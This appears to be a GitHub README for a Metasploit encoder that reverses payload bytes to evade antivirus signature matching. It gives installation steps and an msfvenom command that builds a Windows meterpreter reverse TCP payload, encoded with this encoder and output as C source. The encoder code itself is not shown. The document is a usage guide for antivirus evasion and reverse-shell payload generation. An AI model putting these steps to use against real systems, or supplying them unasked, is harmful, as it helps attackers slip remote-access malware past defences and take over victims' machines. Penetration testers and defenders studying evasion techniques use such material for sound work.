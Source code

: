 # Metasploit_ReverseEncoder
Generic Metasploit Encoder that simply reverses the payload to avoid AV RegEx Pattern Matching 

## Setup
Place the reverse.rb file inside "/usr/share/metasploit-framework/modules/encoders/generic" folder.

## Sample Usage

Try this to verify that Metasploit finds the encoder:
	msfvenom --list encoders

The resulting output should contain the following line

	generic/reverse              normal     Reverse Encoder


Now encode your payload with -e generic/reverse, eg;

	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=wlan0 LPORT=4444 -e generic/reverse -f c -o reversePayload.h

## Limitations:

This encoder only works with Framework Transform Formats (see msfvenom --list formats) and you need to provde your own decode as part of the payload executable creatiion